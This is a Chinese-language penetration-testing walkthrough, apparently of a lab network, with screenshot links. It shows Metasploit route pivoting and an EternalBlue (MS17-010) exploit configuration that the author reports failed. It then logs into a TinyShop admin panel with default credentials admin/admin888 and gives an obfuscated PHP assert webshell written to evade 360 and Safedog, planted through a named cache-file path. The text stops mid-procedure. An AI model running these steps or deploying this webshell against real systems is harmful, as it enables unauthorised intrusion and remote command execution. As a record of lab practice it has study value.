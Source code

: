在`192.168.10.111`执行`test`

成功上线

![image-20231016153455994](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231016153455994.png)

在`msf`上自动添加路由

```bash
run post/multi/manage/autoroute
```

![image-20231016153645498](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231016153645498.png)

现在开始来打`ms17-010`

```bash
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 192.168.12.55
exploit
```

很遗憾，没有成功

咱们换个攻击吧，转向`192.168.10.111`

8080端口开了一个xx系统测试网站

![image-20231016160003053](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231016160003053.png)

通过官方微信扫码可得为 TinyShop

![image-20231016160036027](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231016160036027.png)

![image-20231016160108708](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231016160108708.png)

搜索到这篇利用文章 https://www.freebuf.com/vuls/161409.html

admin/admin888 弱密码登录后台

```bash
http://192.168.10.111:8080/index.php?con=admin&act=login
```

![image-20231016160401312](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231016160401312.png)

![image-20231016160426902](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231016160426902.png)

通过缓存文件来`getshell`，因为后台有360和安全狗，所以`webshell`需要做一定变形

```php
<?php $arr = [$_POST["cmd"],$_REQUEST["cmd"]];@assert($arr[mt_rand(0,1)]);?>
```

我们可以下一下源码，尝试一下就能发现`TinyShopv3.1.1`的`账户注册`的缓存文件在`/cache/593/924/107.php`

导出`tiny_help`的`sql`文件
